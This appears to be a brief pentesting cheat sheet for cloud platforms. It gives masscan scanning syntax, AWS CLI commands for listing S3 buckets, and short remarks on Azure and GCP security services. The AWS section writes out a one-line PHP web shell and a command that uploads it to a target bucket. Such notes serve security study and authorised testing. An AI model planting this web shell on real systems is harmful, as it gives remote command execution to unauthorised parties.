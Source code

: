 # Cloud Pentesting    
Main Cloud platforms: Amazon Web Services, Microsoft Azure, Google Cloud    
Use masscan to scan a large IP range:      

    $ masscan 10.10.0.1/24 -p 22,25,80,443,3389            
    --rate 50000   #fastest scan    
## AWS     
AWS GuardDuty for security.    
Tools      

    https://aws.amazon.com/cli/   #AWS CLI    
   
    aws configure     #set up, can put temp in all values   
    aws s3 ls bucket.site.com    #list contents of a bucket    
    aws --endpoint=http://s3.site.com s3 ls      
    aws --endpoint=http://s3.site.com s3 ls s3://site.com   #list objects and common prefixes   
  
   # might be able to upload a php web shell
    echo '<?php system($_GET["cmd"]); ?>' > shell.php
    aws --endpoint=http://s3.site.com s3 cp shell.php s3://site.com    

    
Resources      

    https://www.hackthebox.com/blog/aws-pentesting-guide    
    
## Azure    
Built in security with Azure Sentinel. Azure acts as a middleman between the AD network and user sign on - makes lots of traditional AD acts ineffective.         

## Google Cloud   
GCP Cloud Armor for security.   
